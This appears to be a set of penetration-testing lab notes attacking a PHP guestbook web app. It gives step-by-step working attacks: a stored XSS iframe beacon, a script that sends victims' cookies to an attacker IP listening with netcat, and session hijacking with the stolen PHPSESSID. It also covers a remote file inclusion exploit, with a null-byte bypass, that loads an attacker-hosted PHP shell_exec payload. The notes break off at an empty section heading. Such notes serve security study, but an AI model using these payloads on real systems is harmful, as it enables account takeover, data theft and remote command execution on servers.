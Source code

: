 #Webapps

##Getting Started
1. Start XAMPP and apache/mysql
2. Navigate to the host in your webbrowser (should be a guestbook application)

## XSS
The sign in page isn't filtered and so you can submit javascript which will run when someone views your comment

In this case I posted `<script>alert("XSS");</script>` which when viewed simply pops up the message "XSS"

XSS can be leveraged to do many things but as an example...

1. Create a comment with an iframe pointing to your ip `<iframe src="http://yo.ur.ip.addr:81/report" width="0" height="0"></iframe>`
2. Setup a listener on your machine `nc -lvp 81` 
3. visit the site from a victims machine and you will see a connection, you can use this to exploit the browser, gather information or grab cookies

**Grabbing Cookies**
1. Submit a comment with the following JS `<script> new Image().src="http://10.11.0.74:81/bogus.php"+document.cookie; </script>`
2. Setup a listener on your machine `nc -lvp 81` 
3. Visit the page as an admin
3. You will see that the cookie has been appended to the url your listener picks up
4. We can steal this cookie and login as the user, edit cookies using your browsers console `document.cookie = "PHPSESSID=34015asdsad08f566d00635a6e8ae98"`

## Remote File Inclusions
1. Whilst testing the website we notice that the language dropdown on the signin page appears to grab data from a file

2. We can see this on examining the source code

   ```
   if (isset( $_GET['LANG'] )) { 
     $lang = $_GET['LANG'];
   } else { 
     $lang = 'en';
   }
   include( $lang . '.php' );
   ```

3. We can see the parameters in the URL so tweaking the lang param to our own file is trivial

   `http://10.11.5.115/addguestbook.php?name=hacker&comment=test&LANG=fr&Submit=Submit`
   `http://10.11.5.115/addguestbook.php?name=hacker&comment=test&LANG=http://10.11.0.74/evil.txt&Submit=Submit`

4. Create our evil file `echo '<?php echo shell_exec("ipconfig"); ?>' >> /var/www/evil.txt`

5. Start apache `service apache2 start`

6. When we navigate to the site we can see that the script appended `.php` onto the end of our request

7. We can get around this by using a null byte (which works in php <=5.3) and causes php to ignore everything after it

   `http://10.11.5.115/addguestbook.php?name=hacker&comment=test&LANG=http://10.11.0.74/evil.txt%00&Submit=Submit`

8. Navigate again to the site and we get the output of the ipconfig command


**Notes**
Might be turned off in php.ini file look for `allow_url_fopen` and `allow_url_include`

##Local File Inclusion
